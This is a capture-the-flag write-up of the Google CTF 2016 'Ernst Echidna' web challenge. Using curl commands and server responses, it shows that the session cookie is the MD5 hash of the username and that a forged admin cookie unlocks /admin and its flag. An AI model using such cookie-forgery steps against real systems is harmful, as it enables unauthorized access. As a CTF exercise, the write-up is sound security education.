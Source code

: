 ```yaml
---
layout: post
alias: "/blog/2016/05/02/google-ctf-2016-ernst-echidna/"
date: 2016-05-02T02:33:12+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Ernst Echidna

Follow the hint in the problem statement, you can know there is a directory `/admin`. And it seems that check the user by the cookie.

``` sh
$ curl --insecure https://ernst-echidna.ctfcompetition.com/robots.txt
Disallow: /admin
```

When you do register, a cookie is baked.

``` sh
$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/register -F username=hoge -F password=fuga
HTTP/1.1 100 Continue

HTTP/1.1 302 Found
Location: /welcome
Content-Type: text/html; charset=utf-8
Date: Sun, 01 May 2016 06:27:54 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: md5-hash=ea703e7aa1efda0064eaa507d9e8ab7e; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
```

And it is matchs with the username.

``` sh
$ echo -n hoge | md5sum
ea703e7aa1efda0064eaa507d9e8ab7e  -
```

So you should md5sum the string `admin` and throw it.

``` sh
$ echo -n admin | md5sum
21232f297a57a5a743894a0e4a801fc3  -

$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/admin --cookie md5-hash=21232f297a57a5a743894a0e4a801fc3
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:28:45 GMT
Server: Google Frontend
Cache-Control: private
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

<html>
  <head>
   <meta charset="utf-8">
   <title>gloomy-scorpion</title>
   <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
  </head>
  <body>
    <div class="container">
      <h1>The authentication server says..</h1>
      <p>Congratulations, your token is &#39;CTF{renaming-a-bunch-of-levels-sure-is-annoying}&#39;</p>
    </div>
  </body>
</html>
```
